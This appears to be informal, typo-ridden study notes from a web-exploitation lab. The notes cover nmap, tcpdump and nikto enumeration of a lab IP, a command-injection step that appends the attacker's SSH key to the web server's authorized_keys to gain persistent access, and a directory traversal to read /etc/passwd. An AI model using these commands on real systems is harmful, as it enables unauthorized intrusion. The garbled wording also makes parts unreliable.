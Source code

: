web exploitation
tcpdump 
javascript website stuff
robots.ttxt is for web scrapers to look where stuff is
wevw

enumerate website
robt.txt
/uploads
/chat
/cmd injection
/java
/webxample
/cross

from surving
-acn upload file?

using tools

nmap scripy =http-enum 10.50.28.11 -vv

sudo tcpdump -XXvvnni any tcp prt 80
nikto v -h host
 nikto v -h 10.50.28.11
 sudo apt install nikto

after unning that, go to command injection. do enumeration. find what ur ssh is
go to ur limops
make a ssh key using ssh-keygen
go to the file it says
copy
then run in the website prompt
echo "sshkey" >>var/www/.ssh/authorized_keys
then cat the file
cat var/www/.ssh/authorized_keys

#directory traversal

../../../../../../../../../../../../etc/password in the url or the radio button
assu,ing its not im ho,e directory and is running cat
